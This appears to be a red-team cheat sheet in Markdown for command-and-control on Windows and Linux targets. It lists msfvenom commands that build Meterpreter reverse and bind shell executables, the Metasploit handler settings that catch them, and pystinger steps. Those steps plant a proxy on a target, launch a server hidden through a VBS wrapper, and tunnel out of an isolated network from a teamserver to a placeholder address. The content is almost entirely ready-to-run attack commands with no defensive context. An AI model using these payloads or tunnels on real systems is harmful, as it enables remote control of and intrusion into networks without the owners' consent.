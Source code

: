 # Forward beacon
```
TeamServer ----> TargetServer(ip,port)
```

# Metasploit

## Reverse
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST= LPORT= -f exe > reverse.exe
```

## Reverse handler
```
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set LHOST
set LPORT
exploit
```

## Forward
```
msfvenom -p windows/x64/meterpreter/bind_tcp LPORT= -f exe > tcp.exe
```

## Forward handler
```
use exploit/multi/handler
set payload windows/x64/meterpreter/bind_tcp
set LPORT
set RHOST
exploit
```

# Targetserver Not Out Of The Net

## pystinger
https://github.com/FunnyWolf/pystinger
```
// Windows
Targetserver:
proxy.* -> targetserver
stinger_server.exe -> targetserver

create stinger_server.vbs:
Set ws = CreateObject("Wscript.Shell")
ws.run "cmd /c D:\XXXXX\stinger_server.exe 0.0.0.0",vbhide

stinger_server.vbs
// Linux
Targetserver:
proxy.* -> targetserver
stinger_server -> targetserver
```
```
Teamserver:
./stinger_client -w http://x.x.x.x/proxy.* -l 0.0.0.0 -p 60000

```